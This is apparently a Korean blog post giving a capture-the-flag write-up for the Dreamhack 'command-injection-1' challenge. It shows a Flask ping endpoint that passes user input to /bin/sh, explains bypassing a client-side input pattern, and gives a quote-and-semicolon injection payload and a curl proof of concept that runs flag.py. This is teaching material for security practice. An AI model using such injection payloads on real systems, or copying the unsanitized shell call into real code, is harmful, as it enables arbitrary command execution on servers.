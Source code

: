 ```yaml
---
title: "[CTF] 드림핵 command-injection-1"
date: 2025-09-18 19:00:00 +0900
categories: [CTF, Web]
tags: [CTF, command-injection]
description: "드림핵 command-injection-1"
toc: true
---
```


## 문제 개요
웹앱이 사용자 입력 값 `host`를 받아 쉘에서 `ping -c 3 "{host}"` 명령을 실행한다. 입력값을 따옴표로 감싸서 사용하지만, 서버 측에서 추가적인 필터링이 없어 따옴표/세미콜론을 이용한 커맨드 인젝션이 가능하다.

문제 코드:

```python
#!/usr/bin/env python3
import subprocess

from flask import Flask, request, render_template, redirect

from flag import FLAG

APP = Flask(__name__)


@APP.route('/')
def index():
    return render_template('index.html')


@APP.route('/ping', methods=['GET', 'POST'])
def ping():
    if request.method == 'POST':
        host = request.form.get('host')
        cmd = f'ping -c 3 "{host}"'
        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            return render_template('ping_result.html', data=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('ping_result.html', data='Timeout !')
        except subprocess.CalledProcessError:
            return render_template('ping_result.html', data=f'an error occurred while executing the command. -> {cmd}')

    return render_template('ping.html')


if __name__ == '__main__':
    APP.run(host='0.0.0.0', port=8000)
```

## 내가 실제로 푼 방법
폼의 `host` 입력값이 클라이언트 측 `pattern`으로 제한되어 있었지만, 개발자도구로 해당 필드를 지우거나 직접 POST 요청을 보내면 우회 가능했다. 서버는 입력을 따옴표로 감싸서 실행하지만, 쉘에서 세미콜론(`;`)으로 명령 연결과 `#`으로 주석을 만들어 주입할 수 있다.

### 내가 사용한 페이로드
```
8.8.8.8" ; flag.py #
```

설명:
- 서버에서 실행되는 명령은 `ping -c 3 "8.8.8.8" ; flag.py #"`
- `;`로 이어진 `flag.py` 명령이 실행되고 `#` 이후는 주석 처리되어 남은 따옴표 문제가 무시된다.
- 개발자 도구로 input `pattern` 제거 후 폼 제출하거나 curl로 직접 POST하면 된다.

### PoC
```bash
curl -X POST -F 'host=8.8.8.8" ; python3 flag.py #' http://TARGET:8000/ping
```

설명:
- 클라이언트 측 검사만 있고 서버 측에서 입력을 안전하게 처리하지 않으면 이런 방식으로 임의 명령을 실행할 수 있다.
- 내가 폼에 위 값을 넣고 제출하니 flag.py가 실행되어 FLAG를 화면에 출력했다.

## 재현 흐름
1. 개발자도구로 input `pattern` 제거(또는 curl 사용)  
2. POST /ping with host=`8.8.8.8" ; python3 flag.py #`  
3. 서버가 쉘로 명령을 실행 → flag 내용이 결과에 포함  
4. 화면에서 FLAG 확인

---
